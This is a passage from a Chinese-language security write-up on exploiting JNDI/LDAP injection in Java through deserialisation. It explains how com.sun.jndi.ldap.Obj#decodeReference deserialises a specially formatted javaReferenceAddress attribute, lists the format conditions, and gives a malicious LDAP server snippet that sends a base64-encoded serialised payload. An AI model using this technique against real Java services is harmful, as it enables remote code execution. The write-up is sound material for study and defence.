 ```plain
```

和低版本`JDK`运行的`Server`端代码差不多，就把`sendResult`处的代码改成能触发反序列化漏洞的利用链就可以

触发点二：`com.sun.jndi.ldap.Obj.java#decodeReference`函数在对普通的`Reference`还原的基础上，还可以进一步对`RefAddress`做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足`RefAddress`的方式，也可以达到上面第一种的效果。  
需满足以下条件：  
1.第一个字符为分隔符  
2.第一个分隔符与第二个分隔符之间，表示`Reference`的`position`，为`int`类型  
3.第二个分隔符与第三个分隔符之间，表示`type`，类型  
4.第三个分隔符是双分隔符的形式，则进入反序列化的操作  
5.序列化数据用`base64`编码  
`payload`如下

```plain
//方式二
e.addAttribute("javaClassName", "foo");
e.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serializeObject(getPayload())));
e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```

[![serialize4.png](assets/1699929760-625fa65b607fbc2136d5b5dd35a52c23.png)](https://storage.tttang.com/media/attachment/2022/05/25/3eda86ed-bbea-4b55-b2c2-a8e25724d918.png)

[![serialize5.png](assets/1699929760-d493ba6c95fc49de78dd3e5baa4673cf.png)](https://storage.tttang.com/media/attachment/2022/05/25/6e5bcaff-c030-4cf3-85dc-85f19a2917ab.png)
